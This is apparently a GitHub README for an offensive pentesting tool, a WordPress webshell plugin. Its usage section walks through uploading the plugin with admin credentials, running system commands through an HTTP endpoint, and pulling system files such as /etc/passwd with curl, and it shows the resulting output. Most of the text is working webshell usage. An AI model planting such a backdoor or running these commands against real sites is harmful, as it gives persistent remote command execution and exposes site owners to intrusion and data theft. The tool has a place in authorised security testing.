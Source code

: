 # WordPress webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a WordPress website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/WordPress-webshell-plugin">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for WordPress.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the WordPress website.

### Step 1: Upload the webshell plugin

First, login with admin rights on the WordPress website and go to "_Plugins --> Add New_" page, at http://127.0.0.1:10080/wordpress/wp-admin/plugin-install.php, and click on "Upload Plugin":

![](./.github/plugin_add_new.png)

Upload the plugin, and click on "_Activate the plugin_":

![](./.github/activate_plugin.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.



## References
 - https://developer.wordpress.org/plugins/intro/
